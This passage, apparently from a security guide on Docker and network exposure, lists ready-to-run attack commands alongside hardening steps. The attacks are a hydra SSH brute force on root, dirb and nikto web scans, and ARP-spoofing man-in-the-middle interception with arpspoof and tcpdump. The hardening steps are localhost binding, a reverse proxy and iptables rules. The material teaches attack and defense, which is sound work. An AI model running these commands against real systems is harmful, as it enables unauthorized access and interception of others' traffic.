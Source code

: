 #### **Exploitation Techniques**
```bash
# SSH brute force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100

# Web application testing
dirb http://192.168.1.100:8080
nikto -h http://192.168.1.100:8080

# Database testing
mysql -h 192.168.1.100 -u root -p
```

#### **Defense & Patching**
```bash
# Bind to localhost only
docker run -d --name secure-app \
  -p 127.0.0.1:8080:8080 \
  myapp:latest

# Use reverse proxy
docker run -d --name nginx-proxy \
  -p 80:80 \
  -v /etc/nginx/nginx.conf:/etc/nginx/nginx.conf \
  nginx:alpine

# Firewall rules
sudo iptables -I DOCKER-USER -s 0.0.0.0/0 -d 192.168.1.100 -j DROP
```

### **2. Man-in-the-Middle Attacks**

#### **Attack Vector: ARP Spoofing**
```bash
# Attacker on same network
# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# ARP spoofing
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
arpspoof -i eth0 -t 192.168.1.1 192.168.1.100

# Sniff traffic
tcpdump -i eth0 -w captured.pcap
```

#### **Exploitation Steps**
```bash
# 1. Network reconnaissance
arp -a
netstat -rn

# 2. Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# 3. ARP spoofing
arpspoof -i eth0 -t target_ip gateway_ip

# 4. Traffic interception
tcpdump -i eth0 -w captured.pcap
wireshark captured.pcap
```
